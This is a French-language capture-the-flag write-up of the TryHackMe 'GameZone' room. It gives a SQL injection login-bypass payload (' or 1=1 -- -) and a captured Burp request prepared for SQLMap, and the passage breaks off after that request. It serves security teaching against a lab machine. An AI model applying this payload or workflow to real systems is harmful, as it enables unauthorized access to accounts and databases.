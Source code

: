 ```yaml
---
tags: [avancé, cyber, sqli, sqlmap, tryhackme]
title: TryHackMe - GameZone
created: '2020-08-18T07:32:27.270Z'
modified: '2020-08-18T19:48:37.596Z'
---
```


# TryHackMe - GameZone

Premièrement j'ajoute l'IP dans `/etc/hosts` pour faire une résolution de noms de domaines locale. Ajouter la ligne :

```sh
# TryHackMe
10.10.132.106 gamezone.thm
```

Ainsi on n'a plus à écrire l'IP dans le navigateur mais bien `gamezone.thm`.

## Obtain access via SQLi 

Login : `' or 1=1 -- -`
Password : 

On arrive alors sur `http://gamezone.thm/portal.php`

## Using SQLMap 

SQLMap est un outil populaire de source ouverte, d'injection automatique de SQL et de reprise de base de données. Il est préinstallé sur toutes les versions de Kali Linux ou peut être téléchargé et installé manuellement ici.

Il existe de nombreux types différents d'injection SQL (boolean / time based, etc...) et SQLMap automatise l'ensemble du processus en essayant différentes techniques.

Dans un premier temps, il faut ouvrir Burpsuite pour capturer une requête :

```sh
POST /portal.php HTTP/1.1
Host: gamezone.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gamezone.thm/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
DNT: 1
Connection: close
Cookie: PHPSESSID=9d50417a07og32kbjvfv5k08b0
Upgrade-Insecure-Requests: 1

searchitem=GAME
```
